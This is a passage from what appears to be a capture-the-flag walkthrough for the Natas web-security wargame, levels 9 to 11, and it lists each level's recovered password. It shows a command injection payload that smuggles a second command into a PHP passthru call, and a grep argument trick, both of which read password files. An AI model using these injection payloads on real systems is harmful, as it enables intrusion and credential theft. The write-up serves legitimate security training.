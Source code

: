 `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

## 9

Looking at the source code, we see that the secret, when encoded must match:
`3d3d516343746d4d6d6c315669563362`. To find out the clear text secret, we can
reverse the encoding steps:

```php
<?php
> hex2bin("3d3d516343746d4d6d6c315669563362");
"==QcCtmMml1ViV3b"
> strrev("==QcCtmMml1ViV3b");
"b3ViV1lmMmtCcQ=="
> base64_decode("b3ViV1lmMmtCcQ==");
"oubWYf2kBq"
```

Submit this secret to see the password.

`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

## 10

In this level, user input is passed to the PHP
[passthru](https://secure.php.net/manual/en/function.passthru.php) function:

```php
passthru("grep -i $key dictionary.txt");
```

We can terminate the `grep` with a semicolon, run an arbitrary command, and
comment any code that comes after with:

```sh
; cat /etc/natas_webpass/natas10 #
```

Here, we return the contents of the password file with `cat`:

`s09byvi8880wqhbnonMFMW8byCojm8eA`

## 11

This level is the same as level [10](#10), but the characters `;`, `|` and `&`
are blocked by the server. We can utilise the `grep` to search for everything in
the password file:

```sh
.* /etc/natas_webpass/natas11 #
```

`SUIRtXqbB3tWzTOgTAX2t8UfMbYKrgp6`

## 12
